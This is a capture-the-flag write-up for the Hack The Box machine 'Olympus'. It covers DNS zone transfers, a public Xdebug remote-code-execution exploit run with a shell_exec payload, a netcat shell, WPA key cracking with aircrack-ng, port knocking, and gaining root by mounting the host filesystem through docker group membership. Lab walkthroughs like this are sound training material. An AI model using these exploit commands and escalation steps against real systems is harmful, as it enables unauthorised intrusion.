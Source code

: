 ## HTB Olympus (Medium) - Writeup

Difficulty: Medium

Olympus was a well-designed box involving DNS exploitation and Wi-Fi cracking, with containerization playing a key role throughout the journey.  
Privilege escalation was achieved through a misconfiguration, making for a solid and enjoyable challenge.  
---

## Nmap 

#### The nmap scan revealed three open and one filtered port:

![obraz](https://github.com/user-attachments/assets/981edf0e-18d3-4d26-9ee1-a08c7fdad02c)




## Port 53 - DNS

We can try to look for hidden domain names with dig command:  
```
dig axfr @10.10.10.83 olympus.htb
dig @10.10.10.83 olympus.htb
```
![obraz](https://github.com/user-attachments/assets/b225b181-6a1f-423a-9784-0f70a2b06b59)

Domain name olympus.htb was just my guess based on HTB naming convention.  




## Port 80 - Website 

![obraz](https://github.com/user-attachments/assets/1c397e3e-bf48-4433-84ee-1aa3c1c3ed14)

It doesn't contain anything intresting, also feroxbuster didn't found anything.  

Let's take a look at the http response headers.  

![obraz](https://github.com/user-attachments/assets/712a3f78-565e-49db-8cca-12f3a595903d)

Xdebug looks promising, lets research it a bit.  
It turns out that xdebug is a php tool and 2.5.5 is a version.   

After a quick search I found an RCE exploit for this tool.  
```
https://github.com/vulhub/vulhub/blob/master/php/xdebug-rce/exp.py
```

Let's try to get basic code execution with it:  
```
python3 exp.py -t http://10.10.10.83/index.php -c 'shell_exec("id");' --dbgp-ip 10.10.14.14
```
![obraz](https://github.com/user-attachments/assets/f180588b-d66d-4cd5-9865-bfa444900d88)

It worked, now we can try to get a shell access, I'll try netcat shell first.  
We will start netcat listener on port 9005 and run:  

![obraz](https://github.com/user-attachments/assets/2ae2d5d6-6800-4ffa-bd86-23fbeb33efd9)

We were lucky, it turned out that our target had netcat with -e option installed which led to initial access.  

![obraz](https://github.com/user-attachments/assets/fc520114-fb0f-42b9-b3c2-25cc7ec499d0)

After a quick enumeration we see that it is likely a container, hostname is weird, and ip differs from the original one.  
Also python is not installed meaning we can't upgrade a terminal.  

![obraz](https://github.com/user-attachments/assets/a195cc26-f6c5-42e3-b5d0-bd80a9df3380)

After some enumeration we found .cap file, it 100% might contain something intresting.  
We will move this file with netcat, first we will start a listener on kali:    

![obraz](https://github.com/user-attachments/assets/b4fd7ee7-e889-4414-b778-25f8b834340e) 

and then run netcat on the target machine:  

![obraz](https://github.com/user-attachments/assets/7fc8f682-46e5-43c5-b504-7cb698af1d81)



## Wireshark - .cap Analysis

Now we can open this file with wireshark:  

![obraz](https://github.com/user-attachments/assets/b01848c2-4569-4ac0-98a4-317ab6bb6e85)  

It is a file containing traffic captured from the 802.11 protocol, which is the standard used for wireless Wi-Fi communication.  
Manually analyzing this file wouldn't be required here.  
We will use a tool called **aircrack-ng** to get wi-fi password.  
```
aircrack-ng file.cap -w /usr/share/wordlists/rockyou.txt
```
We have found a key "flightoficarus".   
Network name is "Too_cl0se_to_th3_Sun".  


## ssh shell as icarus

Combining these two informations and after some tries we found ssh access as "icarus" with password "Too_cl0se_to_th3_Sun".  
Notice we specified port 2222, because it was the open port for ssh on this machine.  

![obraz](https://github.com/user-attachments/assets/1b2f6a5d-1a76-457d-a5af-4bdd3eea7be7)

After some enumeration we found:  

![obraz](https://github.com/user-attachments/assets/f97ac847-a634-448e-ae59-c1aceccca40a)

Now we need to go back to port 53 enumeration with this domain name.  


## Back to port 53 - DNS

With new domain name we can try to perform zone transfer as port 53 is open.  

![obraz](https://github.com/user-attachments/assets/badfc957-22fe-4ca6-bb77-42815b453190)

It had a dns TXT record saying:  
```
"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
```

It looks like a password and numbers used for port knocking.  
port knocking is a mechanism used to protect netowork services.  
With a proper combination of three numbers we can "knock" a port to temporarily open it.  
Port 22 came from nmap as "filtered". We can try to knock it.  

![obraz](https://github.com/user-attachments/assets/ba01493e-986b-4c16-a60f-3a0ec480dabd)

The username was discovered by analyzing a DNS TXT record and recognizing the naming pattern based on Greek gods used in previous accounts.  



## Abusing docker to get root

Again quick enumeration led to basic founding.  
We're in "docker" group which allows us to run docker commands.  

![obraz](https://github.com/user-attachments/assets/1b52fdb6-a8c9-4b8d-b6a7-5676ba97a68b)

We can start with enumerating running docker containers.  

![obraz](https://github.com/user-attachments/assets/c8afc27d-aaea-4a23-b32a-525a478437c1)

There are three containers. I believe we have to use "rhodes" because this is the only hostname I haven't seen before on this machine.  
We can try to abuse it with this command:  
```
docker run -v /:/mountedroot -i -t rodhes bash
```
![obraz](https://github.com/user-attachments/assets/44bba0c6-bbb0-4567-ad2a-f70c3abc4e53)

## Command Explanation 
docker run --> Starts a new Docker container.  
-v /:/mountedroot --> Mounts the host's root filesystem / into the container at the path /mountedroot  
-i --> Runs the container in interactive mode.   
-t --> Allocates a pseudo-TTY  
rodhes --> The name of the Docker image used to create the container.  
bash --> The command to run inside the container.  

## Retrieving a flag

We mounted / to /mountedroot  
Meaning flag will be located in /mountedroot/root/root.txt  

![obraz](https://github.com/user-attachments/assets/24739d58-a4dd-4b30-a234-90da0b05e04c)

Thank you for reading!  







































